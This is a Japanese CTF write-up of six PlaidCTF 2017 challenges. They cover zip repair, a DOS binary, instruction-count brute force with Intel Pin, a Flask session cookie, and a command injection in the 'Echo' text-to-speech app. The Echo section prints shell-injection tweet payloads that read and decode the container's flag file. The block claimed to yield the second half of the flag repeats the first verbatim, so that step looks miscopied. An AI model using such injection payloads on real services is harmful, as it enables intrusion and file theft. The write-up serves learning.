

チーム Harekaze で [PlaidCTF 2017](http://plaidctf.com/) に参加しました。最終的にチームで 587 点を獲得し、順位は 97 位 (得点 1150 チーム中) でした。うち、私は 6 問を解いて 577 点を入れました。

以下、解いた問題の write-up です。

## [Misc 1] sanity check

> The flag is PCTF{poop}

```
PCTF{poop}
```

## [Misc 50] zipper

zipper_50d3dc76dcdfa047178f5a1c19a52118.zip という zip ファイルが与えられます。が、どうやら壊れてしまっているようで展開できません。

zip の構造を調べてみると、Local file header と Central directory header のファイル名の長さが 0x2329 になってしまっています。

Local file header だけ直して、あとは `zip -FF a.zip --out b.zip` で無理やり直してしまいましょう。

```
$ xxd a.zip
0000000: 504b 0304 1400 0200 0800 fc99 924a 3ea9  PK...........J>.
0000010: 2e53 4600 0000 f600 0000 0500 0000 612e  .SF...........a.
0000020: 7478 7453 5020 04b8 1408 2bf1 28ad aa4a  txtSP ....+.(..J
0000030: ccd0 51a8 cc2f 55c8 482c 4b55 484e 2c28  ..Q../U.H,KUHN,(
0000040: 292d 4a4d 5128 c948 5548 cb49 4cb7 e20a  )-JMQ(.HUH.IL...
0000050: 700e 71ab 4e33 284a cd2b 364c 2e8e af4c  p.q.N3(J.+6L...L
0000060: acac 25c3 26ea 2801 00                   ..%.&.(..
```

```
$ zip -FF a.zip --out b.zip
Fix archive (-FF) - salvage what can
        zip warning: Missing end (EOCDR) signature - either this archive
                     is not readable or the end is damaged
Is this a single-disk archive?  (y/n): y
  Assuming single-disk archive
Scanning for entries...
 copying: a.txt  (70 bytes)
$ unzip b.zip
Archive:  b.zip
  inflating: a.txt
$ cat a.txt


Huzzah, you have captured the flag:
PCTF{f0rens1cs_yay}               


```

```
PCTF{f0rens1cs_yay}
```

## [Misc 50] Down the Reversing Hole

reversing-hole_c344571f488311a2553d2cbac6fa0d35.exe というファイルが与えられます。

strings にかけてみると `This program cannot be run in WIN mode.` とあります。

DOSBox で実行してみるとフラグが表示されました。

[](../images/2017-04-24_1.png)

```
PCTF{at_l3a5t_th3r3s_d00m_p0rts_0n_d0s}
```

## [Reversing 125] no_mo_flo

パスワードのチェックをするバイナリが与えられました。

入力が 31 文字以下の場合には `Short input`、間違っていれば `You aint goin with the flow....`、合っていれば `Good flow!!` と出力されるようです。

Intel Pin を使って実行された命令数を調べてみましょう。

```
$ f() { echo $1 | ~/tools/pin-3.2-81205-gcc-linux/pin -t ~/tools/pin-3.2-81205-gcc-linux/source/tools/ManualExamples/obj-intel64/inscount0.so -- ./no_flo_f51e2f24345e094cd2080b7b690f69fb > /dev/null; cat inscount.out; }
$ f "O???????????????????????????????"
Count 105724
$ f "P???????????????????????????????"
Count 105721
$ f "Q???????????????????????????????"
Count 105724
$ f "R???????????????????????????????"
Count 105724
$ f "S???????????????????????????????"
Count 105724
```

`P` の場合だけ実行された命令数が少なくなっています。

2 文字目も同じ要領で調べてみましょう。フラグは `PCTF{` から始まるので、恐らく 2 文字目が `C` の場合にだけ実行される命令数が少なくなるはずです。

```
$ f "PA?????????????????????????????"
Count 105721
$ f "PB?????????????????????????????"
Count 105721
$ f "PC?????????????????????????????"
Count 105660
$ f "PD?????????????????????????????"
Count 105721
$ f "PE?????????????????????????????"
Count 105721
```

このまま 1 文字ずつブルートフォースで特定していきましょう。

```
$ g() {
  for c in {32..126}; do
    c=$(awk "BEGIN{ printf \"%c\", $c }");
    len=$((31 - $#1))
    a=$(printf "%${len}s" | tr " " "?");
    echo -n "$c ";
    echo "$1$c$a" | ~/tools/pin-3.2-81205-gcc-linux/pin -t ~/tools/pin-3.2-81205-gcc-linux/source/tools/ManualExamples/obj-intel64/inscount0.so -- ./no_flo_f51e2f24345e094cd2080b7b690f69fb > /dev/null;
    cat inscount.out;
  done | sort -k3 | head -n 5
}
$ g "PCTF{"
  Count 105593
n Count 105532
0 Count 105593
1 Count 105593
2 Count 105593
$ g "PCTF{n"
  Count 105532
0 Count 105529
1 Count 105532
2 Count 105532
3 Count 105532
$ g "PCTF{n0"
  Count 105529
_ Count 105468
0 Count 105529
1 Count 105529
3 Count 105529
...
$ g "PCTF{n0_fl0?_m0_like_ah_h3ll_n0"
  Count 104769
} Count 104710
0 Count 104769
1 Count 104769
2 Count 104769
```

```
PCTF{n0_fl0?_m0_like_ah_h3ll_n0}
```

## [Web 151] Pykemon

Web アプリのソースコードと、それが動いている URL が与えられました。

どうやらこれは pykemon と呼ばれるものを捕まえたり、捕まえた pykemon の名前をつけたりできる Web アプリのようです。

FLAG という pykemon を捕まえればいいようですが、どれだけ捕まえやすいかを指定する rarity の値が 0 になっており、必ず捕まえられないようになっています。

Cookie を確認すると以下のようになっていました。

```
session=.eJzNVl1v2jAU_SuTn3kIgbQEiRd3jRNUMkHVfE3VlNjMCXFCRJKCg_jvc2BlFAb76NL1LbnXvtfn3HMsr0HgM5aDfltqAeyXNCxAfw0yHk-TeQr6nx83LbCYz5OX0TUg0xwvoqyI6v81-BCAPnjQGfdt8hREMMMczlwHhm6yYgZSE0MfMpJYnCBWehxmRDdZgFzq2YrkO0MW6DF1E23mcygFHC5xoqY40QoDTUKCbqlrK7GBrJIgS_RQUgOZiivq4Y7oIT-UQJwzzEC_c9UCqZ9MTw9FB4N6URrh-OKCLCKnudlIrnMLfxEVXHQRbOWZ-P5RxrfboSdb1V0HKjhhaSB3S4yUFGw2rbN0xcQ2FwZilSEgTm0rD5DaMTSo-LJWiAqUoDAkN5B7jqDLHuaeM6LuPfy-T-UGGmYYWbFrLylGq5DobEmc0eCZjuvuKR3bzeeo2CePaNjGzWo8OKTh6jINnm6JeSrLIMGDCzTcmg-TtPg00idfTU2t_I9aObVU00R45VcTjnVpD6dzhGYSr-BkeWawh8lDNNt4NXqB5AIQ2ctdG_9qln8A4vpYoq9AgeV_ikJnue-QUBj0WHFRoFvs7gZWGIVM6HtWK44gLcZIzb37Lr13xtRHmlDyKsQJEaa3lO3e2rg6zIIkpwFiS8y7eyZ66qk6dwc4x8bxgiOV7nIVVQ5Z6V1WqThU57eo-e93W1dq5m4bL5u4295USde9ZpSEu00oSSJyj_o7OsZTuwgDWy3F1Llna5Jnj6mbxlRULT1nkrkcFgJ6hnUrd8W_IH8PW1VOYdfFz0LeJ4_g1nHFHA9eXIrty3CJTp7uUljuGHzXxmnoUTBu5FHwtsaRGzIOf9fG6f4E9l8bRxrR1xjnsfX8sv6C52UqHuDttqhV95E2m29ji7ye.C-GGKQ.ZNpdmqe-uzUiPUe3jSYzQuhJB_E
```

これをデコードすると以下のようになりました。

```json
{"balls":10,"caught":{"pykemon":[]},"room":{"pykemon":[{"description":{" b":"UHlyaWdvbiBpcyBjYXBhYmxlIG9mIHJldmVydGluZyBpdHNlbGYgZW50aXJlbHkgYmFjayB0byBwcm9ncmFtIGRhdGEgYW5kIGVudGVyaW5nIGN5YmVyc3BhY2Uu"},"hp":36,"name":{" b":"UHlyaWdvbg=="},"nickname":{" b":"UHlyaWdvbg=="},"pid":{" b":"UHlyaWdvbjM2"},"rarity":30,"sprite":{" b":"aW1hZ2VzL3B5cmlnb24ucG5n"}},{"description":{" b":"UHlkdWNrIGlzIGEgeWVsbG93IFB5a2Ftb24gdGhhdCByZXNlbWJsZXMgYSBkdWNrIG9yIGJpcGVkYWwgcGxhdHlwdXM="},"hp":74,"name":{" b":"UHlkdWNr"},"nickname":{" b":"UHlkdWNr"},"pid":{" b":"UHlkdWNrNzQ="},"rarity":60,"sprite":{" b":"aW1hZ2VzL3B5ZHVjay5wbmc="}},{"description":{" b":"UENURntOMHRfNF9zaDFueV9NNGcxazRycH0="},"hp":3,"name":{" b":"RkxBRw=="},"nickname":{" b":"RkxBRw=="},"pid":{" b":"RkxBRzM="},"rarity":0,"sprite":{" b":"aW1hZ2VzL2ZsYWcucG5n"}},{"description":{" b":"UENURntOMHRfNF9zaDFueV9NNGcxazRycH0="},"hp":76,"name":{" b":"RkxBRw=="},"nickname":{" b":"RkxBRw=="},"pid":{" b":"RkxBRzc2"},"rarity":0,"sprite":{" b":"aW1hZ2VzL2ZsYWcucG5n"}},{"description":{" b":"UHlsaXdhZyByZXNlbWJsZXMgYSBibHVlLCBzcGhlcmljYWwgdGFkcG9sZS4gSXQgaGFzIGxhcmdlIGV5ZXMgYW5kIHBpbmsgbGlwcy4="},"hp":89,"name":{" b":"UHlsaXdhZw=="},"nickname":{" b":"UHlsaXdhZw=="},"pid":{" b":"UHlsaXdhZzg5"},"rarity":80,"sprite":{" b":"aW1hZ2VzL3B5bGl3YWcucG5n"}},{"description":{" b":"UHlyaWdvbiBpcyBjYXBhYmxlIG9mIHJldmVydGluZyBpdHNlbGYgZW50aXJlbHkgYmFjayB0byBwcm9ncmFtIGRhdGEgYW5kIGVudGVyaW5nIGN5YmVyc3BhY2Uu"},"hp":40,"name":{" b":"UHlyaWdvbg=="},"nickname":{" b":"UHlyaWdvbg=="},"pid":{" b":"UHlyaWdvbjQw"},"rarity":30,"sprite":{" b":"aW1hZ2VzL3B5cmlnb24ucG5n"}},{"description":{" b":"UHlsaXdhZyByZXNlbWJsZXMgYSBibHVlLCBzcGhlcmljYWwgdGFkcG9sZS4gSXQgaGFzIGxhcmdlIGV5ZXMgYW5kIHBpbmsgbGlwcy4="},"hp":78,"name":{" b":"UHlsaXdhZw=="},"nickname":{" b":"UHlsaXdhZw=="},"pid":{" b":"UHlsaXdhZzc4"},"rarity":80,"sprite":{" b":"aW1hZ2VzL3B5bGl3YWcucG5n"}},{"description":{" b":"UHl0d28gaXMgYSBQeWthbW9uIGNyZWF0ZWQgYnkgZ2VuZXRpYyBtYW5pcHVsYXRpb24="},"hp":95,"name":{" b":"UHl0d28="},"nickname":{" b":"UHl0d28="},"pid":{" b":"UHl0d285NQ=="},"rarity":10,"sprite":{" b":"aW1hZ2VzL3B5dHdvLnBuZw=="}},{"description":{" b":"UHlyaWdvbiBpcyBjYXBhYmxlIG9mIHJldmVydGluZyBpdHNlbGYgZW50aXJlbHkgYmFjayB0byBwcm9ncmFtIGRhdGEgYW5kIGVudGVyaW5nIGN5YmVyc3BhY2Uu"},"hp":46,"name":{" b":"UHlyaWdvbg=="},"nickname":{" b":"UHlyaWdvbg=="},"pid":{" b":"UHlyaWdvbjQ2"},"rarity":30,"sprite":{" b":"aW1hZ2VzL3B5cmlnb24ucG5n"}},{"description":{" b":"UHlsaXdhZyByZXNlbWJsZXMgYSBibHVlLCBzcGhlcmljYWwgdGFkcG9sZS4gSXQgaGFzIGxhcmdlIGV5ZXMgYW5kIHBpbmsgbGlwcy4="},"hp":72,"name":{" b":"UHlsaXdhZw=="},"nickname":{" b":"UHlsaXdhZw=="},"pid":{" b":"UHlsaXdhZzcy"},"rarity":80,"sprite":{" b":"aW1hZ2VzL3B5bGl3YWcucG5n"}},{"description":{" b":"UHl0d28gaXMgYSBQeWthbW9uIGNyZWF0ZWQgYnkgZ2VuZXRpYyBtYW5pcHVsYXRpb24="},"hp":42,"name":{" b":"UHl0d28="},"nickname":{" b":"UHl0d28="},"pid":{" b":"UHl0d280Mg=="},"rarity":10,"sprite":{" b":"aW1hZ2VzL3B5dHdvLnBuZw=="}}],"pykemon_count":11,"rid":0}}
```

この中に FLAG がいるはずです。rarity が 0 の pykemon が FLAG です。

```json
    {
      "description": {
        " b": "UENURntOMHRfNF9zaDFueV9NNGcxazRycH0="
      },
      "hp": 3,
      "name": {
        " b": "RkxBRw=="
      },
      "nickname": {
        " b": "RkxBRw=="
      },
      "pid": {
        " b": "RkxBRzM="
      },
      "rarity": 0,
      "sprite": {
        " b": "aW1hZ2VzL2ZsYWcucG5n"
      }
    }
```

description を base64 デコードするとフラグが出てきました。

```
PCTF{N0t_4_sh1ny_M4g1k4rp}
```

## [Web 200] Echo

Web アプリのソースコードと、それが動いている URL が与えられました。

ソースコードは以下のような内容でした。

```python
from flask import render_template, flash, redirect, request, send_from_directory, url_for
import uuid
import os
import subprocess
import random

cwd = os.getcwd()
tmp_path = "/tmp/echo/"
serve_dir = "audio/"
docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"
convert_cmd = "ffmpeg -i {in_path} -codec:a libmp3lame -qscale:a 2 {out_path}"

MAX_TWEETS = 4
MAX_TWEET_LEN = 140


from flask import Flask
app = Flask(__name__)
flag = "PCTF{XXXXXXX...XXXXXXXX}"

if not os.path.exists(tmp_path):
    os.makedirs(tmp_path)


def process_flag (outfile):
    with open(outfile,'w') as f:
        for x in flag:
            c = 0
            towrite = ''
            for i in range(65000 - 1):
                k = random.randint(0,127)
                c = c ^ k
                towrite += chr(k)

            f.write(towrite + chr(c ^ ord(x)))
    return

def process_audio (path, prefix, n):
    target_path = serve_dir + prefix
    if not os.path.exists(target_path):
        os.makedirs(target_path)

    for i in range(n):
        st = os.stat(path + str(i+1) + ".wav")
        if st.st_size < 5242880:
            subprocess.call (convert_cmd.format(in_path=path + str(i+1) + ".wav",
                                            out_path=target_path + str(i+1) + ".wav").split())


@app.route('/audio/<path:path>')
def static_file(path):
    return send_from_directory('audio', path)

@app.route("/listen",methods=['GET', 'POST'])
def listen_tweets():
    n = int(request.args['n'])
    my_uuid = request.args['my_uuid']

    if n > MAX_TWEETS:
        return "ERR: More than MAX_TWEETS"

    afiles = [my_uuid + "/" + str(i+1) + ".wav" for i in range(n)]
    return render_template('listen.html', afiles = afiles)

@app.route("/",methods=['GET', 'POST'])
def read_tweets():
    t1 = request.args.get('tweet_1')
    if t1:
        tweets = []
        for i in range(MAX_TWEETS):
            t = request.args.get('tweet_' + str(i+1))
            if len(t) > MAX_TWEET_LEN:
                return "ERR: Violation of max tween length"

            if not t:
                break
            tweets.append(t)

        my_uuid = uuid.uuid4().hex
        my_path = tmp_path + my_uuid + "/"

        if not os.path.exists(my_path):
                os.makedirs(my_path)

        with open(my_path + "input" ,"w") as f:
            f.write('\n'.join(tweets))

        process_flag(my_path + "flag")

        out_path = my_path + "out/"
        if not os.path.exists(out_path):
            os.makedirs(out_path)

        subprocess.call(docker_cmd.format(path=my_path).split())
        process_audio(out_path, my_uuid + '/', len(tweets))

        return redirect(url_for('.listen_tweets', my_uuid=my_uuid, n=len(tweets)))

    else:
        return render_template('form.html')

if __name__ == "__main__":
    app.run(threaded=True)
```

140 文字までのツイートを同時に 4 つまで読み上げてくれるサービスのようです。

どのようにしてツイートを音声ファイルに変換しているのか調べると、以下のような部分がありました。

```python
docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"
```

[lumjjb/echo_container - Docker Hub](https://hub.docker.com/r/lumjjb/echo_container/) でツイートを音声ファイルに変換しているようです。

run.py は以下のような内容でした。

```python
import sys
from subprocess import call

import signal
import os
def handler(signum, frame):
    os._exit(-1)

signal.signal(signal.SIGALRM, handler)
signal.alarm(30)


INPUT_FILE="/share/input"
OUTPUT_PATH="/share/out/"

def just_saying (fname):
    with open(fname) as f:
        lines = f.readlines()
        i=0
        for l in lines:
            i += 1

            if i == 5:
                break

            l = l.strip()

            # Do TTS into mp3 file into output path
            call(["sh","-c",
                "espeak " + " -w " + OUTPUT_PATH + str(i) + ".wav \"" + l + "\""])


def main():
    just_saying(INPUT_FILE)

if __name__ == "__main__":
    main()
```

OS コマンドインジェクションができそうです。`process_flag()` でいじられたフラグを元に戻して読み上げてもらいましょう。

```
Tweet 1: $(python -c "exec(open('/share/input').read().splitlines()[1])"|xxd -pl50|python -c"print' '.join(c for c in raw_input())")" -s "50`
Tweet 2: s=open('/share/flag','rb').read();z=64999;print''.join(chr(ord(s[x+z])^reduce(lambda a,b:a^ord(b),s[x:x+z],0))for x in range(0,len(s),z+1))
```

これでフラグの前半部分が得られました。

```
Tweet 1: $(python -c "exec(open('/share/input').read().splitlines()[1])"|xxd -pl50|python -c"print' '.join(c for c in raw_input())")" -s "50`
Tweet 2: s=open('/share/flag','rb').read();z=64999;print''.join(chr(ord(s[x+z])^reduce(lambda a,b:a^ord(b),s[x:x+z],0))for x in range(0,len(s),z+1))
```

これで後半部分も得られました。

```
PCTF{L15st3n_T0__reee_reeeeee_reee_la}
```
